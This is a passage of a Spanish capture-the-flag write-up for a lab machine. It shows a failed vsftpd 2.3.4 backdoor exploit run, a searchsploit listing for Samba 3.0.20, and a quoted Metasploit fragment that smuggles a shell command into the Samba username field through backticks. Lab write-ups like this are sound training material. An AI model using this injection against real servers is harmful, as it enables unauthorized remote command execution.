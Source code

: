 > python2 vsftpd_2.3.4.py 10.10.10.3

```console
Traceback (most recent call last):
  File "vsftpd_2.3.4.py", line 37, in <module>
    tn2=Telnet(host, 6200)
  File "/usr/lib/python2.7/telnetlib.py", line 211, in __init__
    self.open(host, port, timeout)
  File "/usr/lib/python2.7/telnetlib.py", line 227, in open
    self.sock = socket.create_connection((host, port), timeout)
  File "/usr/lib/python2.7/socket.py", line 575, in create_connection
    raise err
socket.error: [Errno 110] Connection timed out
```

Por otra parte también observamos que se tiene un servicio samba 3.0.20 corriendo y que hay un exploit en searchsploit

> searchsploit Samba 3.0.20
```console
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                                                                     | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                                           | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                      | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                      | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                                              | linux_x86/dos/36741.py
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Revisando el codigo del exploit unix/remote/16320.rb observamos que se tiene una manera de ejecutar comandos en el sistema de la siguiente manera

```ruby
[...]
     def exploit
 
         connect
 
         # lol?
         username = "/=`nohup " + payload.encoded + "`"
         begin
[...]
```


[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>